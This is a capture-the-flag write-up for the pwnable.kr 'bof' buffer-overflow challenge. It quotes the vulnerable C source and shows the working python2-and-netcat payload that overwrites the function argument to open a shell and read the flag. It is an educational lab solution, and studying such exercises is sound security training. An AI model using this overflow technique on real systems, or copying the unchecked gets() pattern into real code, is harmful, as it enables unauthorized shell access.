 "Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download: http://pwnable.kr/bin/bof

Download: http://pwnable.kr/bin/bof.c

Running at: nc pwnable.kr 9000"

Buffer overflow? [this video](https://youtu.be/1S0aBV-Waeo?si=V6Bp8g2lC54MpeAM) and [this article](https://owasp.org/www-community/attacks/Buffer_overflow_attack) will tell you perfectly all you need for the challenge.
It seems like as we do netcat bof file gets executed and we need to overflow it:
```bash
└──╼ $nc pwnable.kr 9000
aaaaaaaaaaaaaaaaaaaaaaaaa
overflow me : 
Nah..
```
Let's take a look at the source code:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
So the code basically compares different values but before that create a buf, in that way we can exploit the program and overwrite the values in a way that they'll be equal.
You probably thinking "Oh, we just need to fill 32 bytes (the buf) and afterwards just enter the hex value, right?"

![giphy](https://github.com/ido5ch/Pwnable.kr/assets/97401114/fc502fc6-bba0-4049-b218-1842ef1158a3)

```bash
└──╼ $python2 -c 'print "a" * 32 + "\xbe\xba\xfe\xca"'| nc pwnable.kr 9000
*** stack smashing detected ***: /home/bof/bof terminated
overflow me : 
Nah..
```
That's odd. I opened ida and just tried to figure out how many bytes are there between the parameter of the function and its comparison. 
After a few minutes I found out it was 52 bytes, let's try it out:
```bash
└──╼ $python2 -c 'print "a" * 52 + "\xbe\xba\xfe\xca"'| nc pwnable.kr 9000
ls

vbfsb
^C
```
It looks like it worked and immediately logged out of the shell. Let's add brackets and cat (nothing):
```bash
(python2 -c 'print "a" * 52 + "\xbe\xba\xfe\xca"'; cat)| nc pwnable.kr 9000
ls
bof
bof.c
flag
log
super.pl
cat flag
*the flag*
```
But Ido... why is the script in Python 2 and not in Python 3? [well...](http://python3porting.com/problems.html#bytes-strings-and-unicode)
